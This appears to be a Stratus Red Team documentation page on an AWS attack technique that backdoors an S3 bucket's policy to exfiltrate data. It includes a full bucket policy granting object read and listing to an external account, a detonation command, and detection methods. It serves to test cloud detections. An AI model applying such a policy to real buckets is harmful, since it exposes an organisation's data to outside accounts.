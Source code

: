 ```yaml
---
title: Backdoor an S3 Bucket via its Bucket Policy
---
```


# Backdoor an S3 Bucket via its Bucket Policy


 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: AWS

## MITRE ATT&CK Tactics


- Exfiltration

## Description


Exfiltrates data from an S3 bucket by backdooring its Bucket Policy to allow access from an external, fictitious AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: 

- Create an S3 bucket.

<span style="font-variant: small-caps;">Detonation</span>: 

- Backdoor the S3 Bucket Policy by setting the following Bucket Policy:

<pre>
<code>
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": [
        "s3:GetObject",
        "s3:GetBucketLocation",
        "s3:ListBucket"
      ],
      "Resource": [
        "arn:aws:s3:::%s/*",
        "arn:aws:s3:::%s"
      ]
    }
  ]
}
</code>
</pre>


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.exfiltration.s3-backdoor-bucket-policy
```
## Detection


- Using CloudTrail's <code>PutBucketPolicy</code> event.

- Through GuardDuty's [Policy:S3/BucketAnonymousAccessGranted](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html#policy-s3-bucketanonymousaccessgranted) finding, 
if the S3 bucket was made public (and not only shared with an attacker-controlled AWS account).

- Through [IAM Access Analyzer](https://docs.aws.amazon.com/AmazonS3/latest/userguide/access-analyzer.html),
which generates a finding when an S3 bucket is made public or accessible from another account.




